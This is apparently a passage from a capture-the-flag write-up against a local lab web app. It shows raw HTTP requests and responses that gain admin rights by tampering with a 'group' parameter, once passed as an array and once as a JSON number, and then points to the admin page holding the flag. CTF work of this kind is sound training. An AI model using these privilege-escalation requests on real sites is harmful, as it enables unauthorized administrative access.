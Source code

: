 ```http
        (gilroy 0.1.0) lib/gilroy_web/endpoint.ex:1: GilroyWeb.Endpoint.plug_builder_call/2
        (gilroy 0.1.0) deps/plug/lib/plug/debugger.ex:136: GilroyWeb.Endpoint."call (overridable 3)"/2
        (gilroy 0.1.0) lib/gilroy_web/endpoint.ex:1: GilroyWeb.Endpoint.call/2
```

The application only allows the existence of a single admin, but it is possible to bypass the control with several techniques:
- Passing an array instead of a string
```http
GET /forum/signup.php?name=meethack-bypass&password=meethack&password_confirmation=meethack&group[]=2 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDcyOThiMjczLTIwYzAtNGU5Yy04YjE1LWVkMjdiZDIwNjAxZm0AAAAJdGlja2V0X2lkYQE.pEwNh7xuplnJQvAoevmHOraZkcGKlejrdakU-ZY5fZk

--- RESPONSE ---

HTTP/1.1 302 Found
set-cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDRlZTVjZmU2LTVmYmItNDZiYi04MGU2LTVlYjhiYWYzNTc2OG0AAAAJdGlja2V0X2lkYQE.jj50UZnyR4eNpo_c-Sp73CNchRQaCDqz4koxzJDlfIk; path=/; HttpOnly; SameSite=Lax
```
- Passing a plain number using JSON instead of a string using plain HTTP
```http
POST /forum/newuser.php HTTP/1.1
Host: localhost:4000
Content-Length: 179
Origin: http://localhost:4000
Content-Type: application/json
Referer: http://localhost:4000/forum/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWR3A25pbG0AAAAJdGlja2V0X2lkYQE.ibXLTSjB1yUT_F0yG2NyVNBuL2xtfU8kWF7Fco5Wvcg
Connection: close

{"password_confirmation": "meethack", "_csrf_token": "Iw8wPQZBUxoTJlsQW3N0QS0qBSo9eSB8lfiXn09SJvmvh4Y8_uBRdJrH", "password": "meethack", "name": "meethack-bypass-json", "group":2}

--- RESPONSE ---

HTTP/1.1 302 Found
set-cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDRlZTVjZmU2LTVmYmItNDZiYi04MGU2LTVlYjhiYWYzNTc2OG0AAAAJdGlja2V0X2lkYQE.jj50UZnyR4eNpo_c-Sp73CNchRQaCDqz4koxzJDlfIk; path=/; HttpOnly; SameSite=Lax
```
# Flag

Once become admin, we can visit the `/forum/admin.php` route to obtain our flag:

